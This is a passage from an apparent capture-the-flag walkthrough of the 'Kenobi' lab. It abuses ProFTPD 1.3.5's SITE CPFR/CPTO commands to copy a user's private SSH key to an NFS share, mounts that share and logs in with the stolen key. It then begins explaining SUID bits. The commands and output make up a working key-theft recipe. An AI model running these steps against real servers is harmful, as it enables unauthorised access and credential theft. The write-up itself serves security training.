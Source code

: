 ##### Leverage the vulnerability
We can see if we can just leverage the commands directly in the open netcat session from before and move the ssh key from the location given in the log.txt file that we downloaded from the share earlier.
`nc <Target_IP_Address> 21`
```
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [<Target_IP_Address>]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
quit
221 Goodbye.
```
We used the commands to copy the ssh key to the VAR share that we have access as well from the rpcbind port 111 enumeration we did earlier.

##### Mount the rpcbind "var" share to retrieve key
mkdir in the mnt directory:
`sudo mkdir /mnt/PWNED`
Mount the share to your newly created directory:
`sudo mount <Target_IP_Address>:/var/ /mnt/PWNED/`
Let's verify that our ssh key was indeed copied to the `tmp` directory:
`ls /mnt/PWNED/tmp/`:
```
id_rsa
systemd-private-2408059707bc413cd.service-a5PktM
systemd-private-6f4acd341c0b405cd.service-z5o4Aw
systemd-private-931a76a2d5e442fcd.service-NXA548
systemd-private-e69bbb0653ce4eecd.service-zObUdn
```
Let's copy the key to our local drive:
`cp cp /mnt/PWNED/tmp/id_rsa .`
Next we need to change the permissions of the ssh key or else we might get a complaint about the ssh key being too open (after all, it is a sensitive item as we are about to find out):
`sudo chmod 0600 id_rsa`
Now we can leverage that to login to the target machine:
`sh kenobi@<Target_IP_Address> -i id_rsa`

Checking the contents of the home directory for the kenobi user we find a user.txt which containts the flag:
`ls`
```
share   user.txt
```
`cat user.txt`

### Task 3 - Privilege Escalation with Path Variable Manipulation

Lets first understand what what SUID, SGID and Sticky Bits are.

| Permission | On Files | On Directories |
|:----------:|:---------:|:----------------:|
| SUID Bit   |	User executes the file with permissions of the file owner | - |
| SGID Bit   | User executes the file with the permission of the group owner. | File created in directory gets the same group owner. |
| Sticky Bit| No meaning | Users are prevented from deleting files from other users. |
